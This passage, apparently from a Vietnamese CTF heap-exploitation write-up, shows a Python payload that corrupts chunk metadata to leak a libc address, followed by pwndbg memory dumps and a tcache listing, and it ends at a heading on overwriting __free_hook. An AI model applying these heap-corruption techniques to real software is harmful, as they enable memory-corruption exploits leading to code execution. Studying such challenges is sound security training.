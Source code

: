         - Giờ ta chỉ cần create 1 chunk rồi show ra sẽ leak được libc.
            
            ```python
            create(0x100)
            payload = "\x00"*212
            payload += p64(0x21)
            payload += p64(0xffffffffffffffff)
            payload += p64(0x0)*2
            payload += p64(0x211) 
            payload += p32(0x27f)	
            edit(payload)
            
            show()
            ```
            
            - Ở đây ta overwrite size = 0x211 để setup cho phần sau.
                
                ```python
                pwndbg> x/40xg 0x5555555592c0-0x10
                0x5555555592b0: 0x0000000000000000      0x0000000000000211
                0x5555555592c0: 0x000000000000027f      0x0000000000000000
                0x5555555592d0: 0x0000000000000000      0x0000000000000000
                0x5555555592e0: 0x0000000000000000      0x0000000000000000
                0x5555555592f0: 0x0000000000000000      0x0000000000000000
                0x555555559300: 0x0000000000000000      0x0000000000000000
                0x555555559310: 0x0000000000000000      0x0000000000000000
                0x555555559320: 0x0000000000000000      0x0000000000000000
                0x555555559330: 0x0000000000000000      0x0000000000000000
                0x555555559340: 0x0000000000000000      0x0000000000000000
                0x555555559350: 0x0000000000000000      0x0000000000000000
                0x555555559360: 0x0000000000000000      0x0000000000000000
                0x555555559370: 0x0000000000000000      0x0000000000000000
                0x555555559380: 0x0000000000000000      0x0000000000000000
                0x555555559390: 0x0000000000000000      0x0000000000000000
                0x5555555593a0: 0x0000000000000000      0x0000000000000021
                0x5555555593b0: 0xffffffffffffffff      0x0000000000000000
                0x5555555593c0: 0x0000000000000000      0x0000000000000501
                0x5555555593d0: 0x00007ffff7fb2be0      0x00007ffff7fb2be0
                0x5555555593e0: 0x0000000000000000      0x0000000000000000
                
                [*] leak: 0x7ffff7fb2be0
                [*] base: 0x7ffff7dc7000
                ```
                
            - Sau đó delete để đưa chunk đó vào bin 0x210 sử dụng cho overwrite __free_hook.
                
                ```python
                pwndbg> bin
                tcachebins
                0x210 [  1]: 0x5555555592c0 ◂— 0x0
                ```
                
        
        ## Overwrite __free_hook
        